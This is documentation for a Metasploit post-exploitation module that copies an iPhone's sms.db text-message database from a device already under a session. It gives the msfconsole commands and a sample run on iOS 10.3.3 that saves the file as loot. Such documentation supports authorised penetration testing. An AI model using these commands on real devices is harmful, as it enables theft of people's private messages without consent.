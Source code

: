 ## Description
  
  This module downloads the `sms.db` file from iPhones

## Verification Steps

  1. Start msfconsole
  2. Get a session
  3. Do: ```use post/apple_ios/gather/ios_text_gather```
  4. Do: ```set SESSION <session>```
  5. Do: ```run```
  6. You should get the sms.db file on the iPhone target

## Scenarios

### Tested on iOS 10.3.3 on an iPhone 5

  ```

  msf5 > use post/apple_ios/gather/ios_text_gather
  msf5 post(apple_ios/gather/ios_text_gather) > set session 1
  session => 1
  msf5 post(apple_ios/gather/ios_text_gather) > run

  [!] SESSION may not be compatible with this module.
  [+] sms.db file found
  [+] sms.db stored at /Users/space/.msf4/loot/20181101154200_default_192.168.43.49_sms.db.file_591456.txt
  [*] Post module execution completed


  ```
